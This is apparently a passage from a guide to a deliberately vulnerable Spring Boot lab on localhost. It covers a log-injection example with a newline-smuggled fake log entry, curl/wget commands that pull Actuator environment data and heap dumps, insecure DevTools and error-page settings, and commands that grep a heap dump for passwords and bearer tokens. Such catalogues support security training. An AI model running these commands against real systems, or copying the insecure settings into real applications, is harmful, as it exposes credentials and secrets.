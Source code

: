 ### 12. Log Injection
```java
@GetMapping("/login")
public String login(@RequestParam String username) {
    logger.info("Login attempt for user: " + username);
    // ...
}

// Attack
http://localhost:8084/login?username=admin%0A%0AERROR: Admin password is 'secret123'
```

## Spring Boot Specific Issues

### 1. Actuator Information Disclosure
```bash
# Sensitive endpoints
curl http://localhost:8084/actuator/env
curl http://localhost:8084/actuator/configprops
curl http://localhost:8084/actuator/beans
curl http://localhost:8084/actuator/mappings

# Download heap dump (contains secrets)
wget http://localhost:8084/actuator/heapdump
```

### 2. Spring Boot DevTools
```yaml
spring:
  devtools:
    remote:
      secret: mysecret
# Allows remote code execution!
```

### 3. Error Page Information Disclosure
```yaml
server:
  error:
    include-message: always
    include-exception: true
    include-stacktrace: always
```

## Exploitation Tools

### Extract Secrets from Heap Dump
```bash
# Download heap dump
curl http://localhost:8084/actuator/heapdump -o heapdump.hprof

# Analyze with Eclipse MAT or
strings heapdump.hprof | grep -i password
strings heapdump.hprof | grep -i "bearer "
```
